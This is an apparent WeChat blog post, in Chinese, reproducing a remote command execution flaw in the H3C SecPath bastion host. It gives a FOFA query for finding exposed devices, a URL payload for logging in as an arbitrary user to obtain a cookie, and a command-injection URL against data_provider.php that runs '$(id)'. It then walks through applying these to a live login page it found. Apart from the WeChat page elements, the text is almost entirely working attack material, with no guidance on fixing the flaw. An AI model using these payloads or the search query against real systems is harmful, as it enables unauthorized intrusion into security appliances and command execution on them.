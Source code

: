 ##  漏洞复现:H3C SecParh堡垒机 data provider.php 远程命令执行漏洞

椰子  [ 神隐攻防实验室 ](javascript:void\(0\);)

**神隐攻防实验室** ![]()

微信号 gh_84eef72d8c4d

功能介绍 安全知识学习，web渗透，安全资料分享！

____

__

收录于话题

  
  

点击蓝字/关注我们

  
![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210805105948.png)

01:漏洞影响

H3C SecParh fortress machine  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210805105948.png)

02:FOFA语法

  

app="H3C-SecPath-运维审计系统"

  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210805105948.png)

03:漏洞利用

通过任意用户登录获取Cookie：  

/audit/gui_detail_view.php?token=1&id=%5C&uid=%2Cchr(97))%20or%201:%20print%20chr(121)%2bchr(101)%2bchr(115)%0d%0a%23&login=admin

  

/audit/data_provider.php?ds_y=2019&ds_m=04&ds_d=02&ds_hour=09&ds_min40&server_cond=&service=$(id)&identity_cond=&query_type=all&format=json&browse=true

  

  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210805105948.png)

04:漏洞复现

  

    
    
    通过fofa语法app="H3C-SecPath-运维审计系统"找到一个登录页面

  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210805105952.png)

  

先通过任意用户登录获取Cookie

  

    
    
    /audit/gui_detail_view.php?token=1&id=%5C&uid=%2Cchr(97))%20or%201:%20print%20chr(121)%2bchr(101)%2bchr(115)%0d%0a%23&login=admin

  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210805105953.png)

然后换成最后POC进去，成功实现

    
    
    /audit/data_provider.php?ds_y=2019&ds_m=04&ds_d=02&ds_hour=09&ds_min40&server_cond=&service=$(id)&identity_cond=&query_type=all&format=json&browse=true

  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210805105954.png)

  

  

预览时标签不可点

收录于话题 #

个 __

上一篇 下一篇

阅读

分享 收藏

赞 在看

____已同步到看一看[写下你的想法](javascript:;)

前往“发现”-“看一看”浏览“朋友在看”

![](//res.wx.qq.com/mmbizwap/zh_CN/htmledition/images/pic/appmsg/pic_like_comment55871f.png)

前往看一看

**看一看入口已关闭**

在“设置”-“通用”-“发现页管理”打开“看一看”入口

[我知道了](javascript:;)

__

已发送

取消 __

####  发送到看一看

发送

漏洞复现:H3C SecParh堡垒机 data provider.php 远程命令执行漏洞

最多200字，当前共字

__

发送中

写下你的留言

微信扫一扫  
关注该公众号

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

[知道了](javascript:;)

**长按识别前往小程序**

![]()

